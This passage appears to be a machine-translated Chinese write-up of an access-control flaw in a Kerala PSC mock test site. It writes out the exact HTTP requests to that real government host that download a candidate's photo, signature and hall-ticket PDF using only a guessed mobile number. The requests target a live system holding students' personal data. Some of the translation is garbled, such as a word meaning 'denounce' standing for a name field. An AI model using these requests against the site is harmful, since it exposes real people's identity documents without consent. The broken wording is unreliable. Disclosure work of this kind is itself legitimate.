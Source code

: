 *这包括细节*

*A.告发*

*B.电子邮件*

*C.地址*

*D.身份证照片链接*

*在这个请求中，服务器不检查任何东西来验证请求中的手机号码。这意味着我们可以改变手机号码，如果它是一个注册号码，我们可以得到这些细节。*

*2.去拿照片*

*a.为了获得学生的照片，它发送以下请求*

```
*POST /KPSCAptitudeTest/index.php/Mock_Controller/get_cand_photo_download HTTP/1.1
Host: mailer.psc.kerala.gov.in
mob_no={mobile_number}&csrf_token_onlinemock={csrf_token}*
```

*回应是学生的 base64 解码图像。*

*b.为了获得签名的照片，它发送另一个请求*

```
*POST /KPSCAptitudeTest/index.php/Mock_Controller/get_cand_sign_download HTTP/1.1
Host: mailer.psc.kerala.gov.in
mob_no={mobile_number}&csrf_token_onlinemock={csrf_token}*
```

*响应是签名的 base64 解码图像。*

*3.获取大厅门票下载链接*

*为了获得下载大厅门票的链接，它发送以下请求*

```
*POST /KPSCAptitudeTest/index.php/Mock_Controller/download_hallticket HTTP/1.1
Host: mailer.psc.kerala.gov.in
mob_no={mobile_number}&cand_id={idcard_number}&csrf_token_onlinemock={csrf_token}*
```

*它返回一个 base64 编码的值，解码后显示如下*

```
*report=header&type=pdf&cand_idcard_no={idcard_number}&cand_mob={mobile}*
```

*4.下载门票*

*在获得上述 base64 编码的响应后，它发送另一个请求*

```
*GET /KPSCAptitudeTest/application/reportengine.php?arg={base64_encoded_data} HTTP/1.1*
```

*上述请求的响应是一个 pdf 文件。*

## *摘要*
